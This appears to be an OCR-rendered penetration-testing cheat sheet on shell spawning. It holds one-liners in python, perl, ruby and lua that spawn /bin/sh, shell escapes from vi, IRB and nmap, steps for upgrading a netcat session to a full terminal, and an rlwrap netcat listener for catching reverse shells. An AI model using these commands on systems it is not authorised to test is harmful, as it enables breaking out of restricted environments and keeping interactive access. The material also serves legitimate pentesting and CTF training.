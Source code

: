 Shell Spawning

```
python -c 'import pty; pty.spawn("/bin/sh")'

echo os.system('/bin/bash')

```

```
/bin/sh -i

```

```
perl —e 'exec "/bin/sh";'

```

perl:
exec "/bin/sh";

ruby:
exec "/bin/sh"

lua:
os.execute('/bin/sh')

(From within IRB)
exec "/bin/sh"

(From within vi)
:!bash

(From within vi)
:set shell=/bin/bash:shell

(From within nmap)
!sh

## Enable Tab-Completion

Enable Tab-Completion

1. In your active shell press bg to send your nc session to background
2. Enter stty raw -echo
3. Enter fg to bring your nc session to foreground
4. Enter export TERM=xterm-256color

## Catching Reverse Shells (Nc)

Catching Reverse Shells (Netcat)

rlwrap enables the usage of arrow keys in your shell. [https://github.com/hanslub42/rlwrap](https://github.com/hanslub42/rlwrap)

```
rlwrap nc -nlvp 4444

```
